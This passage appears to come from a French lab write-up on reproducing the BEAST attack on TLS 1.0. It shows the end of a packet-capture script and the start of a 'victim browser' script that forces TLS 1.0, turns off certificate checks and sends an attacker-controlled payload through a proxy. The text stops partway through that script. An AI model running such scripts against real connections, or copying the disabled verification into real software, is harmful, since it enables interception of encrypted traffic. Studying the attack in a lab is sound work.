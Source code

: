 ```python
                seen_blocks.add(first_block)
                with open(OUTPUT_FILE, "a") as f:
                    f.write(first_block + "\n")

```

Ce script capture les paquets TCP vers le port cible et extrait les premiers blocs des données chiffrées, permettant de détecter d'éventuelles fuites CBC et de stocker les blocs dans un fichier pour analyse ultérieure.

## 5. Script d'attaque

### 5.1 Navigateur victime

Le script `victim_browser.py` ci-dessous simule un navigateur vulnérable utilisant TLS 1.0:

```python
#!/usr/bin/env python3
# coding: utf-8

import ssl
import requests
from requests.adapters import HTTPAdapter
from urllib3.poolmanager import PoolManager
from requests.packages.urllib3.exceptions import InsecureRequestWarning

class TLSv10Adapter(HTTPAdapter):
    """
    Adapter personnalisé pour forcer TLSv1.0.
    """
    def init_poolmanager(self, connections, maxsize, block=False, **pool_kwargs):
        ctx = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
        ctx.options |= ssl.OP_NO_SSLv2 | ssl.OP_NO_SSLv3
        ctx.check_hostname = False
        ctx.verify_mode = ssl.CERT_NONE
        pool_kwargs['ssl_context'] = ctx
        return super().init_poolmanager(connections, maxsize, block, **pool_kwargs)

def main():
    url = "https://37.187.103.134:8443/"

    # Désactivation des alertes de sécurité (certificat non valide)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    # Crée une session HTTP avec TLS 1.0 forcé
    session = requests.Session()
    session.mount("https://", TLSv10Adapter())

    # Configuration du proxy vers mitmproxy sur la machine hôte
    proxies = {
        'http': 'http://172.17.0.1:8080',
        'https': 'http://172.17.0.1:8080',
    }
    session.proxies.update(proxies)

    # Payload injecté (ce contenu est contrôlé par l'attaquant)
    payload = {
        "attack": "ABCDE"  # contenu contrôlable pour BEAST
    }

    try:
        print("[+] Envoi d'une requête POST avec injection contrôlée...")
        resp = session.post(url, data=payload, timeout=5, verify=False)

```